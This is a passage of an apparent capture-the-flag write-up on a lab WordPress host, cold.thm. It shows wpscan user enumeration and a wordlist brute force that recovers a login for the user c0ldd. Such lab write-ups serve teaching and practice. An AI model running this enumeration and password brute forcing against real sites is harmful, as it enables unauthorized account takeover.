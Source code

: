 Looking shows that WordPress is installed.

<img width="1858" height="972" alt="Screenshot From 2025-09-06 20-39-50" src="https://github.com/user-attachments/assets/2d47117d-7d15-4357-9718-fdee9b4e0bd2" />

---

## Wpscan

```bash
wpscan --url http://cold.thm/ -e u
```

Output shows 4 users:

```
[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```
---

## Bruteforce

```bash
wpscan --url http://cold.thm/ \
  --usernames c0ldd \
  --passwords /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

We found valid credentials:

```
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Logged in successfully.

<img width="1858" height="972" alt="Screenshot From 2025-09-06 21-40-23" src="https://github.com/user-attachments/assets/312e9304-69d1-4edd-a79c-080b84e757e6" />

---
